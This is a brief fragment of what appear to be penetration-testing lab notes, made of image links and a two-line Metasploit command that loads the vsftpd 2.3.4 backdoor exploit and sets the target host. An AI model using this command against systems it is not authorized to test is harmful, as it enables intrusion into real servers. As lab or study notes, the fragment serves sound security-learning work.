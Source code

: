 ![Pasted image 20250611103344](../../zzAttachments/Pasted%20image%2020250611103344.png)
##### vsftpd 2.3.4 exploit (metasploit)
```
use exploit/unix/ftp/vsftpd_234_backdoor
set rhosts [IP]
```
![Pasted image 20250611103701](../../zzAttachments/Pasted%20image%2020250611103701.png)
![Pasted image 20250611103737](../../zzAttachments/Pasted%20image%2020250611103737.png)
